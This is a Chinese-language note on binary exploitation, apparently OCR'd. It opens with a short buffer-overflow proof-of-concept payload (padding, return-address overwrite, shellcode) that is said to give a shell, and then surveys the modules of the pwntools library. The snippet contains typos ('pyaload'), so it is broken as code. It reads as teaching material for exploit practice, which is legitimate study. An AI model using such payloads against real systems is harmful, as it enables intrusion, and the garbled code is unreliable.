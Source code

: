 修改代码 payload部分为 


    payload = ''
    payload += '%259c' #填充259的垃圾数据
    payload += 'a'*28

    payload += pwn.p32(0x8079f46)
    pyaload += shellcode
    pyaload = compress(payload)

python poc.py 就拿到shell

Misc: 跑起来会输出 pid, 这时用 gdb attach pid可以绑定程序｡

## pwntools 快速入门
pwntools中包含很多三方软件包｡包括capstone等二进制软件｡推荐在linux或者
mac os上新开python virtualenv安装｡(pwntools不支持windows或者python3)
安装详细教程:https://docs.pwntools.com/en/stable/install.html

pwntoosl的模块多 wiki地址:https://docs.pwntools.com/en/stable/

1.pwnlib.asm
asm模块主要通过capstone进行汇编的编译与反编译｡通常用来编译各种平台构架的shellcode
2.pwnlib.constants
头文件宏定义的封装,通过此模块,可以直接获取一下系统宏定义对应的整数数据｡
3.pwnlib.context
上下文管理器,通过它来控制一些全局的信息｡比如目标计算机体系结构,log等级等｡控制生
成shellcode,log时候的默认行为｡
4.pwnlib.dynelf
通过内存leak数据来自动化定位程序中函数位置｡极其实用｡
5.pwnlib.encoders
shellcode编码工具｡通过编码排除shellcode中特定字符｡经常无法转换｡

1.pwnlib.elf
读写elf文件结构中的各种信息｡非常方便实用｡
2.pwnlib.fmtstr
格式化字符串自动化利用工具｡有缺陷,只能使用少数情况｡
3.pwnlib.gdb
可以在脚本中直接使用此模块attach进程或者启动gdb｡有缺陷,不实用｡
4.pwnlib.libcdb
Libc的database,可以通过一些信息查找对应libc｡通常配合dynelf使用｡
5.pwnlib.log
通常是pwntools内部代码使用｡偶尔用它打印一些信息｡大部分时候还是会直接print｡

1.pwnlib.memleak
内存泄露管理工具｡方便拼接多次泄露出来的内存｡不过通常只在dynel的时候由后者使用｡
2.pwnlib.shellcraft
shellcode生成工具｡生成shellcode时候非常遍历｡
3.pwnlib.tubes
主要的io工具,pwntools最最常用的功能｡
4.pwnlib.util
包含一些列有效的小工具｡虽然都不是复杂的工具,但是直接使用能节省很多时间｡
5.pwnlib.rop
rop生成工具,可以自动生成32位rop｡
